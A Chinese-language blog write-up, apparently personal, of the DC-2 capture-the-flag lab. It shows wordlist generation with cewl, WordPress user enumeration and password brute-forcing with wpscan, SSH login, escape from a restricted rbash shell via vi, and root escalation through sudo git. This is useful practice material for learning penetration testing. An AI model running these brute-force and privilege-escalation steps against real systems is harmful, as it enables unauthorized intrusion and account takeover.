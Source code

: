 ```yaml
---
layout: post
title: DC-2
subtitle: DC-2
date: 2025-07-08 09:27
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

主机发现

![Pasted%20image%2020250708092821.png300](https://img.ghostliner.top/JuHdN2.png)

发现`192.168.163.131`，端口扫描
![Pasted%20image%2020250708092929.png300](https://img.ghostliner.top/siB1ce.png)

访问80端口，被重定向到 <http://DC-2> ，修改hosts即可访问

目录扫描，发现wp-admin后台登陆路径

访问站点，获取到flag1，按提示使用cewl
![Pasted%20image%2020250708093111.png300](https://img.ghostliner.top/8nOtgC.png)

```shell
cewl http://dc-2/wp-login.php -w pass.txt
wpscan --url http://dc-2/ -e u
# admin jerry tom
echo -e "admin\njerry\ntom" > user.txt
wpscan --url http://DC-2 -e -U user.txt -P pass.txt
# Username: jerry, Password: adipiscing
# Username: tom, Password: parturient
```

![Pasted%20image%2020250708100011.png300](https://img.ghostliner.top/6uYNfN.png)

![Pasted%20image%2020250708095958.png300](https://img.ghostliner.top/1iq7uw.png)

```shell
ssh tom@DC-2 -p 7744
compgen -c
vi flag3.txt
```

获取flag3

![Pasted%20image%2020250708100605.png300](https://img.ghostliner.top/fAT1Xa.png)

rbash提权

```shell
vi flag3.php
:set shell=/bin/sh
:shell
```

进入sh

```shell
export PATH=$PATH:/bin
su jerry
# 输入密码
```

获取flag4

![image.png300](https://img.ghostliner.top/g9FLWN.png)

```shell
sudo -l
# 显示：(root) NOPASSWD: /usr/bin/git
sudo git help config
!/bin/bash
```

提权到root用户，获取flag5

![image.png300](https://img.ghostliner.top/7JcS8d.png)
